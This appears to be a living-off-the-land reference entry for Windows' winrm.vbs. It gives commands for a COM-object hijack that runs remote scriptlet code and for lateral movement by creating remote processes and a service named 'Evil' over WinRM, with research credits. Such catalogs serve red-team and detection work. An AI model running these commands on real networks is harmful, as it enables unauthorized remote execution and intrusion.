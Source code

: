 ## Winrm.vbs
* Functions: Execute
```

reg.exe import c:\path\to\Slmgr.reg & winrm quickconfig
Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.

winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol.

winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985
Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol.
```
   
* Resources:   
  * https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  * https://www.youtube.com/watch?v=3gz1QmiMhss
  * https://github.com/enigma0x3/windows-operating-system-archaeology
  * https://redcanary.com/blog/lateral-movement-winrm-wmi/
  * https://twitter.com/bohops/status/994405551751815170
   
* Full path:   
  * C:\windows\system32\winrm.vbs
  * C:\windows\SysWOW64\winrm.vbs
   
* Notes: Thanks to Matt Nelson - @enigma0x3 (Hijack), Casey Smith - @subtee (Hijack), Red Canary Company cc Tony Lambert - @redcanaryco (Win32_Process LM), Jimmy - @bohops (Win32_Service LM)  
   
